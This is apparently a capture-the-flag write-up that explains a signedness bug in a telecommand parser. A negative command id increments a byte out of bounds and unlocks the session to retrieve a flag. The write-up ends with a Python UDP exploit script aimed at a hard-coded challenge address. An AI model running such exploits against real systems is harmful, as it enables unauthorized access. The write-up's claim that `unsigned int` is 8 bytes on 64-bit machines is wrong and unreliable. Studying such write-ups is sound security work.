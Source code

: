 ```yaml
---
geometry: margin=2cm
---
```

# Tree In The Forest

Rapid Unplanned Disassembly

We receive the C source code to a parser for the telecommand protocol, which processes commands in a proprietary format and logs how many times each command is hit.
To prevent unauthorized access the parser employs a simple security feature that hides data from the user.


### Analysis

To decode a packet, the program reads the packet into a buffer and casts its contents to a `struct command_header` object:

```C++
typedef struct command_header {
	short version : 16;
	short type : 16;
	command_id_type id : 32;
} command_header;
```

The integer `lock_state` keeps track of wether the current session is authenticated or not and is defined as:

```C++
typedef enum lock_states {
	UNLOCKED = 			0,
	LOCKED = 			1,
} lock_states;
```

The service keeps track of the amount of times each id was received by incrementing an element of the `command_log` array corresponding to its value:

```C++
if (header->id >= COMMAND_LIST_LENGTH){
    response << "Invalid id:" << header->id << std::endl;
} else {
    // Log the message in the command log
    command_log[header->id]++;

    // Handle the message, return the response
    response << handle_message(header) << std::endl;
}
```

As a security measure, the service ensures that the provided id is less than the amount of possible commands. However, since the id is of signed integer type, a negative value will result in unsafe array access, allowing us to increment a single byte out-of-bounds. Due to the order in which the variables are declared, `locked_state` lies directly before `command_log` in memory:

```C++
// Globals used in this program, used to store command log and locked/unlocked state
unsigned int lock_state;
char command_log[COMMAND_LIST_LENGTH];
```

The `lock_state` is of `unsigned int` type, which is 8 bytes long on 64 bit architectures. Since amd64 is a little endian architecture, the `LOCKED` state is stored as `\x01\x00\x00\x00\x00\x00\x00\x00` in memory. As a result, sending a command header with id `-8` increases the least significant byte of `locked_state` by one.

Since the goal is to change the value of `lock_state` from `LOCKED` to `UNLOCKED`, we increment the least significant bit 255 times, overflowing it to `0`.

Then, having successfully unlocked the state, we request the flag via the `GETKEYS` command by sending a packet with id `9`:

```C++
const char* handle_message(command_header* header){
	command_id_type id = header->id;
	// Based on the current state, do something for each command
	switch(lock_state){
		case UNLOCKED:
			if (id == COMMAND_GETKEYS)
				return std::getenv("FLAG");
			else
				return "Command Success: UNLOCKED";
		default:
			if (id == COMMAND_GETKEYS)
				return "Command Failed: LOCKED";
			else
				return "Command Success: LOCKED";
	}
}
```


### Exploit

```python3
import struct, sys
import socket, time

s = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
p = ("18.118.161.198", int(sys.argv[1]))

for i in range(255):
    payload = b""
    payload += struct.pack("<h", 0)
    payload += struct.pack("<h", 0)
    payload += struct.pack("<i", -8)

    # Recv after each send to ensure correct ordering
    s.sendto(payload, p)
    print(time.time(), s.recvfrom(100000))

payload = b""
payload += struct.pack("<h", 0)
payload += struct.pack("<h", 0)
payload += struct.pack("<i", 9)

s.sendto(payload, p)
print(s.recvfrom(100000))
```


